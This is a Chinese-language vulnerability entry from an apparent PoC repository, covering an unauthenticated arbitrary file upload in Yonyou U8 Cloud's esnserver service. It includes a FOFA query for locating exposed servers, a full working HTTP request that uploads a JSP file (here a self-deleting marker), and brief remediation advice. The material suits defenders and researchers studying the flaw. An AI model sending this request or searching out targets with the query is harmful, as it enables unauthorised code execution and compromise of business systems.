


---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 用友U8 Cloud esnserver存在任意文件上传漏洞

# 漏洞描述

用友U8 cloud前台任意文件上传导致远程命令执行漏洞。未经授权攻击者通过漏洞上传任意文件，最终可以获取服务器权限。

# 影响版本

用友-U8-Cloud

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-U8-Cloud"

POC/EXP：

POST /service/esnserver HTTP/1.1 
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Token: 469ce01522f64366750d1995ca119841 
Content-Length: 583 

{"invocationInfo":{"ucode":"123","dataSource":"U8cloud","lang":"en"},"method":"uploadFile","className":"nc.itf.hr.tools.IFileTrans","param":{"p1":"UEsDBAoAAAAAAA9tSFkDJCbXbQAAAG0AAAAKAAAAY29tcHJlc3NlZDwlIG91dC5wcmludGxuKCJEdWRlU3VpdGUiKTsgbmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTsgJT5QSwECHwAKAAAAAAAPbUhZAyQm120AAABtAAAACgAkAAAAAAAAACAAAAAAAAAAY29tcHJlc3NlZAoAIAAAAAAAAQAYACbiFZZEGdsBHOcblEgZ2wERXscDRxnbAVBLBQYAAAAAAQABAFwAAACVAAAAAAA=","p2":"webapps/u8c_web/test123.jsp"},"paramType":["p1:[B","p2:java.lang.String"]}

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
